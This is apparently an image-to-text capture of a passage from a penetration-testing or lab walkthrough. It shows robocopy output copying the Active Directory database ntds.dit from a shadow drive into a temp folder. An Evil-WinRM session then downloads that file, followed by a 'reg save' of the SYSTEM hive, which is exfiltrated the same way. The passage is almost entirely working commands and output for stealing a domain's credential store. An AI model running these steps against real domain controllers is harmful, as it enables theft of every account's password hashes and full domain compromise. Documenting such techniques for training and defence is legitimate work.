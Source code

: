 ```bash
-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Thursday, March 21, 2024 6:44:01 AM
   Source : z:\windows\ntds\
     Dest : C:\Windows\Temp\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------

                           1    z:\windows\ntds\
            New File              18.0 m        ntds.dit
<SNIP>
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   18.00 m   18.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           109734697 Bytes/sec.
   Speed :            6279.069 MegaBytes/min.
   Ended : Thursday, March 21, 2024 6:44:01 AM

# download the file
*Evil-WinRM* PS C:\Windows\Temp> download ntds.dit

Info: Downloading C:\Windows\Temp\ntds.dit to ntds.dit

Info: Download successful!
```

We also need to exfiltrate the `system.hive` file:

```bash
# make a copy of the file
*Evil-WinRM* PS C:\windows\temp> reg save HKlM\SYSTEM C:\windows\temp\system.hive
The operation completed successfully.

# download the file
*Evil-WinRM* PS C:\> download system.hive

Info: Downloading C:\\system.hive to system.hive

Info: Download successful!
```
